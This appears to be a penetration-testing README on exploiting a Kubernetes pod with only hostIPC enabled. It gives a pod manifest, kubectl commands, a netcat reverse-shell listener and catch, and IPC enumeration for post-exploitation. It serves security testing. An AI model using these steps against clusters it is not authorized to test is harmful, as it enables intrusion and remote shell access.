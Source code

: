 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: hostipc
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostipc
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-hostipc-only.yaml](pod-hostipc-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc-only/pod-hostipc-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc-only -- bash
```

## Or, create a reverse shell pod
[pod-hostipc-only-revshell.yaml](pod-hostipc-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc-only/pod-hostipc-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux



#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.
